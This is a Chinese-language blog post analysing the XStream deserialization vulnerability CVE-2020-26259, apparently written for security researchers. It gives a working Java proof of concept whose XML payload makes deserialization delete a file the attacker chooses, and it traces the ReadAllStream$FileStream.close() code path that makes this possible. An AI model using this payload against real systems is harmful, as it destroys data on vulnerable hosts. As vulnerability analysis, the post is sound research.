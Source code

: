 ```yaml
---
layout:     post
title:      CVE-2020-26259漏洞分析
subtitle:   Xstream反序列化漏洞
date:       2020-12-29
author:     heria
header-img: img/post-bg-ios9-web.jpg
catalog: true
tags:
---
```




简介及介绍已在前篇介绍 直接开始复现及分析

## 0X01复现

```
import com.thoughtworks.xstream.XStream;
public class CVE {
    public static void main(String[] args) {
        String ssrf_xml = "<map>\n" +
                "  <entry>\n" +
                "    <jdk.nashorn.internal.objects.NativeString>\n" +
                "      <flags>0</flags>\n" +
                "      <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>\n" +
                "        <dataHandler>\n" +
                "          <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>\n" +
                "            <contentType>text/plain</contentType>\n" +
                "            <is class='com.sun.xml.internal.ws.util.ReadAllStream$FileStream'>\n" +
                "              <tempFile>D:\\X-2020-26259\\DELE.txt</tempFile>\n" +
                "            </is>\n" +
                "          </dataSource>\n" +
                "          <transferFlavors/>\n" +
                "        </dataHandler>\n" +
                "        <dataLen>0</dataLen>\n" +
                "      </value>\n" +
                "    </jdk.nashorn.internal.objects.NativeString>\n" +
                "    <string>test</string>\n" +
                "  </entry>\n" +
                "</map>";
        XStream xstream = new XStream();
        xstream.fromXML(ssrf_xml);
    }
}
```

其中文件路径自定义，执行后文件删除。

![在这里插入图片描述](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/20201215112032850.gif)

## 0X02分析

![image-20201229133909309](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201229133909309.png)

从poc中可以发现：CVE-2020-26259的poc中is元素为com.sun.xml.internal.ws.util.ReadAllStream$FileStream，这与上一个漏洞poc不一样。

值得注意的是，这次漏洞利用的不是Base64Data中get方法里的baos.readFrom(is)这个入口，而是位于它下面一行的is.close()这行代码。通过调试，程序在执行过get方法中baos.readFrom(is)后，紧接着执行is.Close()

此时的is是com.sun.xml.internal.ws.util.ReadAllStream$FileStream，跟入com.sun.xml.internal.ws.util.ReadAllStream$FileStream中的close方法

![image-20201229134509764](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201229134509764.png)

当com.sun.xml.internal.ws.util.ReadAllStream$FileStream对象的tempFile属性值不为空时，删除tempFile文件。

tempFile是com.sun.xml.internal.ws.util.ReadAllStream$FileStream对象的属性值，因此可以直接在poc中com.sun.xml.internal.ws.util.ReadAllStream$FileStream元素内构造tempFile属性元素，通过tempFile属性元素控制要删除的文件

![image-20201229134628013](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201229134628013.png)

## 0X03修复

![image-20201229155804783](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201229155804783.png)



## 0x04参考链接：

https://blog.csdn.net/caiqiiqi/article/details/111194893